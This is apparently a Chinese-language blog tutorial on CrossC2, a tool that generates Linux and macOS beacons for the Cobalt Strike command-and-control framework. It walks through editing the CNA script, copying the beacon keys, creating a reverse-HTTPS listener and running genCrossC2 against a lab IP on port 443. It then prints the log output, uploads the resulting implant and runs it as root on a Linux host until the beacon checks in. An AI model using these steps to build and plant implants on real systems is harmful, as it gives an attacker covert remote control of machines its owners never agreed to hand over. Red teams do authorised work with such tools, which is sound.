






描述
CrossC2 framework - 生成CobaltStrike的跨平台beacon
链接
https://github.com/gloxec/CrossC2
使用方式
首先下载CrossC2，修改cna文件中的CC2_PATH与CC2_BIN的绝对路径，他们分别代表CrossC2的根路径与genCross.xxx的路径，后续生成payload要用。
1
2
3
4
5
6
7
8
9
| menubar("CrossC2", "generator", 2);
$CC2_PATH = "/Users/wulala/tools/CS/cs4.3/linux/CrossC2Kit/";
$CC2_BIN = "genCrossC2.MacOS";
popup generator {
menu "&Create CrossC2 Listener" {
item "&Create reverse HTTPS Listener" {
createCrossC2Listener(true);
|
讲CS服务端的.cobaltstrike.beacon_keys拷贝到C端的文件下（要和genCrossC2.MacOS在同目录）

然后在CS中加载CrossC2.cna，工具栏会出现CrossC2选项卡

创建https Listener

启动CrossC2-Linstener,配置好监听器与导出路径即可。

查看日志成功创建

1
2
3
4
5
6
7
| *** /Users/wulala/tools/CS/cs4.3/linux/CrossC2Kit/genCrossC2.MacOS 192.168.100.222 443 /Users/wulala/tools/CS/cs4.3/linux/CrossC2Kit/.cobaltstrike.beacon_keys null Linux x64 /tmp/linux-test
*** genCrossC2 beacon -> *[success] : Packed 1363808 byte.
*** /Users/wulala/tools/CS/cs4.3/linux/CrossC2Kit/genCrossC2.MacOS 192.168.100.222 443 /Users/wulala/tools/CS/cs4.3/linux/CrossC2Kit/.cobaltstrike.beacon_keys null Linux-lib x64 /tmp/linux-test.lib
*** genCrossC2 libbeacon -> *[success] : Packed 2725144 byte.
*** ahahahaha hosted CrossC2 beacon: reverse-https Linux x64 { https }[https] @ https://192.168.100.222:55413/tXdrgqQouY
*** create listener: CrossC2 beacon: reverse-https Linux x64 { https }
|
查看导出位置，生成了linux-test，文件
1
2
3
4
5
| ╭─wulala@wulaladeMacBook-Pro /tmp
╰─$ ls -l
-rwxr-xr-x 1 wulala wheel 1363808 1 9 20:19 linux-test
-rwxr-xr-x 1 wulala wheel 2725144 1 9 20:19 linux-test.lib
|
讲文件上传到linux服务器，然后./执行。
1
2
3
4
5
| root@wulala:/home
root@wulala:/home
root 24241 1 54 20:23 ? 00:00:03 ./linux-test
root 24249 2832 0 20:23 pts/0 00:00:00 grep linux-test
root@wulala:/home
|
成功上线

命令行生成方式
1
| ./genCrossC2.MacOS xx.xx.xx.xx 443 .cobaltstrike.beacon_keys null Linux x64 /tmp/linux-test
|